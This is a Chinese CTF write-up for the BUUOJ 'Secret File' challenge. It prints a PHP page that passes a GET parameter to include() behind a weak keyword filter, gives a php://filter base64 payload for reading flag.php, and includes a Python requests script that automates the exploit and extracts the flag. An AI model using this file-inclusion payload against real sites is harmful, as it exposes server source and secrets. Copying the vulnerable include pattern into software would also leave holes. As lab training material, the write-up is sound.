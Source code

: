 # 分析

来自[[极客大挑战 2019]Secret File](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Secret%20File)

页面没啥功能，F12查看源码，发现`./Archive_room.php`，访问看到

![image-20240625214256125](image/image-20240625214256125.png)

稳妥起见，查看这个页面访问`./action.php`，不到一秒，就看完了？整这些花里胡哨的

![image-20240625214400317](image/image-20240625214400317.png)

我们返回查阅前进行抓包，果然发现端倪，访问`secr3t.php`

![image-20240625214924889](image/image-20240625214924889.png)

代码审计，发现

```php+HTML
<html>
  <title>secret</title>
  <meta charset="UTF-8">
<?php
  highlight_file(__FILE__);
  error_reporting(0);
  $file=$_GET['file'];
  //过滤了关键字
  if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
      echo "Oh no!";
      exit();
  }
  include($file); 
//flag放在了flag.php里
?>
</html>
```

尝试php伪协议获得flag.php源码，payload=`secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`

# exp

```python
import requests
import base64
import re

url = "http://edb1e0cc-0bb5-417d-854f-3eb6855a8b89.node5.buuoj.cn:81/secr3t.php"
kw={
  "file":"php://filter/convert.base64-encode/resource=flag.php"
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.content.decode('utf-8')
    start_marker = '</code>'
    end_marker ='</html>'
    base64_data = res_text.split(start_marker)[1].strip()
    base64_data = base64_data.split(end_marker,1)[0]
    flag_text = str(base64.b64decode(base64_data))
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, flag_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

